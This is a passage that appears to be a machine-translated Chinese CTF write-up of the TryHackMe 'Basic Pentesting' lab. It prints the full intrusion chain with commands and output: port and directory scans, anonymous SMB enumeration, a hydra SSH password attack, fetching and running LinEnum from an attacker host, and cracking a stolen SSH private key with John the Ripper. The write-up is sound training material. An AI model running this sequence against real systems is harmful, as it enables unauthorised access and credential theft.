



# TryHackMe 编写:基本测试

> 原文：<https://infosecwriteups.com/tryhackme-writeup-basic-pentesting-49fb45e97058?source=collection_archive---------0----------------------->

B asic Pentesting 将自己描述为“*一台可以让你练习网络应用程序入侵和权限提升的机器*([“阿苏”2019](https://tryhackme.com/room/basicpentestingjt) )。创建这个房间是为了向初级渗透测试人员介绍远程入侵目标系统的艺术和科学，这种攻击性的方法收集信息并利用链接获取系统管理员的密码。在本文中，我将讨论获取系统管理员主密码的过程。


来自[英雄维基(2022 . 6 . 15 修订版)](https://hero.fandom.com/wiki/Melissa_Mao?oldid=2662360)的一些图像组件

# 目录一览

1.  程序
2.  结束事项
3.  参考

# 程序

这个房间旨在向用户介绍渗透测试的基本知识，并通过利用与目标系统相关的漏洞来访问目标系统。该房间有用户:

*   使用 [nmap (n.d.)](https://nmap.org/) 和*gobuster*([Mehlmauer et al . n . d .](https://github.com/OJ/gobuster))探测实用程序探测目标系统，以获取系统中打开的端口以及在其中找到的隐藏子目录。
*   对关键服务或 web 应用程序进行暴力攻击，以获得对系统的初始访问权限。
*   利用收集的信息获得更多访问权限，并从系统中获取更多信息。

我将回答房间里提出的问题，并讨论我发现这些答案的过程，最终目标是找到系统管理员的密码。

与这些 TryHackMe boot2root 机器一样，我将我的`/etc/hosts`配置为包含一个伪名称:`basicpentestingjt.thm`，它将指向目标系统的动态 IP 地址。然后，我点击这个房间第一个任务右上角的绿色“启动机器”按钮，开始探测目标系统。

## 探索

我首先在我的攻击箱的网络浏览器上浏览了一下`basicpentestingjt.thm`,看看是否有网站在上面运行。图 1 描述了网页的样子:



图 1

然后，我使用`nmap`对目标系统运行 TCP 端口扫描:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml --max-scan-delay=5s -T4 basicpentestingjt.thm**
[sudo] password for dna: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at [redacted]
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 21:16
Completed NSE at 21:16, 0.00s elapsed
Initiating NSE at 21:16
Completed NSE at 21:16, 0.00s elapsed
Initiating NSE at 21:16
Completed NSE at 21:16, 0.00s elapsed
Initiating Connect Scan at 21:16
Scanning basicpentestingjt.thm [65535 ports]

[... snip ...]
```

我还使用 gobuster 实用程序来探测 web 服务器，寻找任何可能被利用的隐藏子目录:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ gobuster dir -u http://basicpentestingjt.thm -w ./subdirectories.txt -x php,bak,htm,html -t 40** ===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://basicpentestingjt.thm
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                ./subdirectories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,bak,htm,html
[+] Timeout:                 10s
===============================================================
[redacted] Starting gobuster in directory enumeration mode
===============================================================

[... snip ...]
```

在`nmap`扫描完成后，我用 [xsltproc (n.d.)](http://xmlsoft.org/xslt/xsltproc.html) 实用程序将 XML 输出转换成可读的 HTML 文件:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html**

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

图 2 描述了`nmap`扫描的 HTML 输出:



图 2

查看`nmap`的输出，它正在运行一个[OpenSSH(7.2p 2 版)](https://www.openssh.com/txt/release-7.2p2)服务，一个[Apache HTTP Server(2 . 4 . 18 版)](https://www.apachelounge.com/Changelog-2.4.html)，一个 Samba SMB 服务(参见 [Samba 2016](https://www.samba.org/samba/history/samba-4.3.11.html) )，一个 Apache JServ 实例(参见[米尔斯坦 2000](https://tomcat.apache.org/tomcat-3.3-doc/AJPv13.html) )和一个 Apache Tomcat 实例(参见[Apache Archives 9 . 0 . 7)目标系统很可能正在运行](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.7/RELEASE-NOTES) [Ubuntu Linux (n.d.)](https://ubuntu.com/about) 。

在`gobuster`扫描完成后，我还发现了一些有趣的子目录:

```
/.htm            (Status: 403) [Size: 300]
/.html           (Status: 403) [Size: 301]
/index.html      (Status: 200) [Size: 158]
/development     (Status: 301) [Size: 336] 
                   [--> http://basicpentestingjt.thm/development/]
/.html           (Status: 403) [Size: 301]
/.htm            (Status: 403) [Size: 300]
/server-status   (Status: 403) [Size: 309]
Progress: 1038178 / 1038220 (100.00%)==========================
[redacted] Finished
===============================================================

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

`/development`对我来说是一个可以进一步探索的子目录。图 3 描述了`/development`子目录的呈现网页:



图 3

我下载了`dev.txt`和`j.txt`文件，并查看了它们的内容:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ wget http://basicpentestingjt.thm/development/dev.txt** 
--[redacted]--  http://basicpentestingjt.thm/development/dev.txt
Resolving basicpentestingjt.thm (basicpentestingjt.thm)...
Connecting to basicpentestingjt.thm:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 483 [text/plain]
Saving to: ‘dev.txt’

dev.txt   100%[==================================>]     483  --.-KB/s    in 0s      

[redacted] (12.6 MB/s) - ‘dev.txt’ saved [483/483]

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ cat dev.txt    **     

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ wget http://basicpentestingjt.thm/development/j.txt** 
--[redacted]--  http://basicpentestingjt.thm/development/j.txt
Resolving basicpentestingjt.thm (basicpentestingjt.thm)... 
Connecting to basicpentestingjt.thm:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 235 [text/plain]
Saving to: ‘j.txt’

j.txt   100%[==================================>]     235  --.-KB/s    in 0s      

[redacted] (8.83 MB/s) - ‘j.txt’ saved [235/235]

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ cat j.txt** 
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

这些文本文件似乎是开发人员“J”和系统管理员“K”之间的内部通信。从这些文本文件中，我可以推断出“J”正在尝试使用 Apache Structs 和 Apache Tomcat 进行应用程序开发,“K”对“J”的弱密码感到失望。“J”可能是进入目标系统的“最薄弱环节”。

我问自己的问题是“*‘J’和‘K’应该是谁？他们的用户名是什么？“我可以通过进一步列举目标系统来回答这个问题——特别是通过探索 Samba 服务。我继续用`smbmap` ( [Evans et al. n.d.](https://github.com/ShawnDEvans/smbmap) )实用程序来列举它的用户:*

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ smbmap -H basicpentestingjt.thm** 
[+] Guest session       IP: basicpentestingjt.thm:445   Name: unknown                                           
        Disk               Permissions     Comment
        ----               -----------     -------
        Anonymous          READ ONLY
        IPC$               NO ACCESS       IPC Service 
                                               (Samba Server 4.3.11-Ubuntu)

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

我通过匿名登录使用 [smbclient (n.d.)](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) 连接到`Anonymous` SMB 共享:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ smbclient //basicpentestingjt.thm/Anonymous -U " "%" "** 
Try "help" to get a list of possible commands.
**smb: \>**
```

然后，我尝试获取系统上的文件列表:

```
**smb: \> ls**
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024\. 10994236 blocks available
**smb: \>**
```

`staff.txt`文件看起来很有趣，所以我开始下载它:

```
**smb: \> get staff.txt**
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
**smb: \>**
```

然后我打开了攻击箱上的`staff.txt`;其内容是:

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

有了这些信息，我可以将开发人员“J”与“Jan”联系起来，将系统管理员“K”与“Kay”联系起来。因为据说 Jan 的系统密码很弱，所以最好尝试通过她的帐户访问系统。

## 初始访问

我接着使用`hydra`密码破解工具( [Kali Linux Tools n.d.](https://www.kali.org/tools/hydra/) )对用户`jan`发起字典攻击:

```
┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ hydra -l jan -P ./rockyou.txt basicpentestingjt.thm ssh -t 40
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at [redacted]
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4

[... snip ...]
```

片刻之后，我找到了一个有效的用户名和密码组合:

```
[... snip ...]

[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ssh://basicpentestingjt.thm:22/
[STATUS] 294.00 tries/min, 294 tries in 00:01h, 14344121 to do in 813:10h, 24 active
[STATUS] 161.67 tries/min, 485 tries in 00:03h, 14343935 to do in 1478:46h, 19 active
[22][ssh] host: **basicpentestingjt.thm   login: jan   password: [redacted]**
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 12 final worker threads did not complete until end.
[ERROR] 12 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at [redacted]

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

我现在有了`jan`的密码，可以用他们的凭证通过 SSH 访问系统:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh jan@basicpentestingjt.thm**
The authenticity of host 'basicpentestingjt.thm' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
Warning: Permanently added 'basicpentestingjt.thm' (ED25519) to the list of known hosts.
jan@basicpentestingjt.thm's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

[... snip ...]

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
**jan@basic2:~$**
```

非常好。

## 后剥削

我的下一项技术是列举系统的特权提升漏洞。我使用 LinEnum([“rebotuser”等](https://github.com/rebootuser/LinEnum))来实现:

```
**jan@basic2:~$ wget http://attacker.thm:8000/LinEnum.sh**
--[redacted]--  http://attacker.thm:8000/LinEnum.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
LinEnum.sh: Permission denied

Cannot write to ‘LinEnum.sh’ (Success).
**jan@basic2:~$ ls
jan@basic2:~$ pwd**
/home/jan
**jan@basic2:~$ cd /tmp
jan@basic2:/tmp$ wget http://attacker.thm:8000/LinEnum.sh**
--[redacted]--  http://attacker.thm:8000/LinEnum.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh     100%[==========================>]  45.54K  73.8KB/s

[redacted] (73.8 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

**jan@basic2:/tmp$**
```

我最初试图将 LinEnum 脚本保存到用户的主文件夹，但是现在允许写权限。不过我成功地将它保存到了`/tmp`文件夹中。然后，我开始让脚本可执行并运行它:

```
**jan@basic2:/tmp$ chmod +x LinEnum.sh
jan@basic2:/tmp$ ./LinEnum.sh**

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled

[... snip ...]
```

运行 *LinEnum* 显示 kay 的帐户中有一个`.ssh`文件夹，并且在他们的主文件夹中有一个名为 pass.bak 的文件。从 jan 的帐户中无法读取`pass.bak`文件。在上面运行`ls -l`会显示 SSH 密钥，我可以使用这些密钥通过 kay 登录到目标系统，目标系统上的所有用户都可以读取这些密钥:

```
**$ ls -l /home/kay/.ssh**
total 12
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
**$**
```

因此，我将文件下载到我的攻击箱中，并使用 SSH 公钥通过 kay 的帐户访问目标系统。在此之前，我需要破解与之相关的密码。我使用开膛手约翰( [Openwall n.d.](https://www.openwall.com/john/) )来完成这项任务:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh2john id_rsa > id_ssh2john**

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ john ./id_ssh2john --wordlist=~./rockyou.txt  **   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**beeswax          (id_rsa)**     
1g 0:00:00:00 DONE 2.173g/s 179860p/s 179860c/s 179860C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

**┌──(dna㉿deniers)-[~/Documents/THM/ctf/basicpentestingjt]
└─$** 
```

然后，我使用我的 AttackBox 的 SSH 客户端通过 kay 的帐户连接到目标系统:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh -i id_rsa kay@basicpentestingjt.thm   **         
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
**kay@basic2:~$** 
```

我终于能够转储`pass.bak`文件了:

```
**kay@basic2:~$ ls**
pass.bak
**kay@basic2:~$ cat pass.bak**
[redacted]
**kay@basic2:~$**
```

阿洛拉。

# 结束事项

这是一个有趣的房间，向初级渗透测试人员介绍通过利用开源智能获得初始访问并进一步利用在具有不适当文件权限的目标系统上找到的公共 SSH 密钥来入侵目标系统的艺术和科学。

没有针对目标系统的代码注入攻击；我只是用一些观察和“拼凑”出这个众所周知的难题。这个房间对于经验丰富的渗透测试人员来说是个好地方，因为实践提高了熟练程度！

## 承认

约翰·哈蒙德对这个房间的漫游([哈蒙德 2020](https://youtu.be/xl2Xx5YOKcI) )，我承认我在写这篇文章时偶尔会引用。

## 呼吁采取行动

对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):[](https://medium.com/membership/@EpsilonCalculus)

此外，对于任何喜欢阅读我的黑客文章的读者，我邀请他们看看我的技术文章系列，主要由 CTF 的文章组成，但也有其他计算机和 STEM 内容😃


[阿列克谢](https://medium.com/@EpsilonCalculus?source=post_page-----49fb45e97058--------------------------------)

## 技术报道

[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----49fb45e97058--------------------------------)43 stories

# 参考

Apache 档案(9.0.7 版)。 *Apache Tomcat 版本 9.0.7:发行说明*。2022 年 12 月 9 日检索自:[https://archive . Apache . org/dist/Tomcat/Tomcat-9/v 9 . 0 . 7/RELEASE-NOTES](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.7/RELEASE-NOTES)

Apache HTTP 服务器(2.4.18 版)。 *Changelog Apache 2.4* 。阿帕奇休息室。2022 年 12 月 9 日检索自:[https://www.apachelounge.com/Changelog-2.4.html](https://www.apachelounge.com/Changelog-2.4.html)

《阿苏》(2019)。*基本测试:这是一台可以让你练习网络应用黑客和权限提升的机器*。TryHackMe。2022 年 12 月 10 日检索自:[https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)

Evans 等人(未注明)。 *smbmap: SMBMap 是一个方便的 SMB 枚举工具*。GitHub 仓库。2022 年 12 月 9 日检索自:[https://github.com/ShawnDEvans/smbmap](https://github.com/ShawnDEvans/smbmap)

哈蒙德 J. (2020)。TryHackMe！基本渗透测试。YouTube 视频。2022 年 12 月 10 日检索自:【https://youtu.be/xl2Xx5YOKcI 

英雄维基(2022 年 6 月 15 日修订)。梅利莎·毛。2022 年 12 月 10 日检索自:【https://hero.fandom.com/wiki/Melissa_Mao?oldid=2662360 

Kali Linux 工具(未注明)。*九头蛇*。2022 年 12 月 10 日检索自:[https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)

Mehlmauer 等人(未注明)。 *Gobuster v3.2.0:用 Go* 编写的目录/文件、DNS 和 VHost 破坏工具。GitHub 仓库。2022 年 12 月 9 日检索自:[https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

米尔斯坦特区(2000 年)。 *Apache JServ 协议 1.3 版*。阿帕奇基金会。2022 年 12 月 9 日检索自:[https://tomcat.apache.org/tomcat-3.3-doc/AJPv13.html](https://tomcat.apache.org/tomcat-3.3-doc/AJPv13.html)

nmap(未标明)。 *Nmap:网络映射器——免费安全扫描器*。2022 年 12 月 9 日检索自:[https://nmap.org/](https://nmap.org/)

OpenSSH(7.2p 2 版)。*发行说明*。2022 年 12 月 9 日检索自:[https://www.openssh.com/txt/release-7.2p2](https://www.openssh.com/txt/release-7.2p2)

开放式墙壁(未标明)。开膛手约翰密码破解者。2022 年 12 月 10 日检索自:[https://www.openwall.com/john/](https://www.openwall.com/john/)

“rebootuser”等(未注明)。 *LinEnum:脚本化的本地 Linux 枚举&权限提升检查*。GitHub 仓库。2022 年 12 月 10 日检索自:[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

桑巴(2016)。*Samba 4 . 3 . 11 的发行说明*。2022 年 12 月 9 日检索自:[https://www.samba.org/samba/history/samba-4.3.11.html](https://www.samba.org/samba/history/samba-4.3.11.html)

smbclient(未注明)2022 年 12 月 9 日检索自:[https://www . samba . org/samba/docs/current/man-html/SMB client . 1 . html](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)

Ubuntu Linux(未标明)。*Ubuntu 的故事*。2022 年 12 月 9 日检索自:【https://ubuntu.com/about 

xsltproc(未标明)。 *xsltproc —命令行 xslt 处理器*。2022 年 12 月 7 日检索自:[http://xmlsoft.org/xslt/xsltproc.html](http://xmlsoft.org/xslt/xsltproc.html)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！